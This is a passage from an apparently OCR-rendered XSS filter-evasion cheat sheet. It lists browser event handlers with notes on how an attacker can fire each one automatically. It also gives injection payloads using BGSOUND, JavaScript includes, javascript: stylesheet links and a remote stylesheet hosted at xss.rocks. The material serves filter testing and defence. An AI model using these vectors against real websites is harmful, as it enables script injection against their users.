     initialize with something like:     `<SCRIPT>self.resizeTo(500,400);</SCRIPT>`)
-   `onResume()` (the onresume event fires on every element that becomes     active when the timeline resumes, including the body element)
-   `onReverse()` (if the element has a repeatCount greater than one,     this event fires every time the timeline begins to play backward)
-   `onRowsEnter()` (user or attacker would need to change a row in a     data source)
-   `onRowExit()` (user or attacker would need to change a row in a data     source)
-   `onRowDelete()` (user or attacker would need to delete a row in a     data source)
-   `onRowInserted()` (user or attacker would need to insert a row in a     data source)
-   `onScroll()` (user would need to scroll, or attacker could use the     `scrollBy()` function)
-   `onSeek()` (the `onReverse` event fires when the timeline is set to     play in any direction other than forward)
-   `onSelect()` (user needs to select some text - attacker could auto     initialize with something like:
    `window.document.execCommand("SelectAll");`) -   `onSelectionChange()` (user needs to select some text - attacker
    could auto initialize with something like:     `window.document.execCommand("SelectAll");`)
-   `onSelectStart()` (user needs to select some text - attacker could     auto initialize with something like:
    `window.document.execCommand("SelectAll");`) -   `onStart()` (fires at the beginning of each marquee loop)
-   `onStop()` (user would need to press the stop button or leave the     webpage)
-   `onStorage()` (storage area changed) -   `onSyncRestored()` (user interrupts the element\'s ability to play
    its media as defined by the timeline to fire) -   `onSubmit()` (requires attacker or user submits a form)
-   `onTimeError()` (user or attacker sets a time property, such as dur,     to an invalid value)
-   `onTrackChange()` (user or attacker changes track in a playList) -   `onUndo()` (user went backward in undo transaction history)
-   `onUnload()` (as the user clicks any link or presses the back button     or attacker forces a click)
-   `onURLFlip()` (this event fires when an Advanced Streaming Format     (ASF) file, played by a HTML+TIME (Timed Interactive Multimedia
    Extensions) media tag, processes script commands embedded in the ASF     file)
-   `seekSegmentTime()` (this is a method that locates the specified     point on the element\'s segment time line and begins playing from
    that point. The segment consists of one repetition of the time line     including reverse play using the AUTOREVERSE attribute.)
 #### BGSOUND
 
```
    <BGSOUND SRC="javascript:alert('XSS');"> 
```
 #### & JavaScript includes
 
```
    <BR SIZE="&{alert('XSS')}"> 
```
 #### STYLE sheet
 
```
    <LINK REL="stylesheet" HREF="javascript:alert('XSS');"> 
```
 ### Remote style sheet
 Using something as simple as a remote style sheet you can include your
XSS as the style parameter can be redefined using an embedded expression. This only works in IE. Notice that there is nothing on the
page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won\'t work
unless there is some content on the page other than the vector itself, so you\'ll need to add a single letter to the page to make it work if
it\'s an otherwise blank page: 
```
     <LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```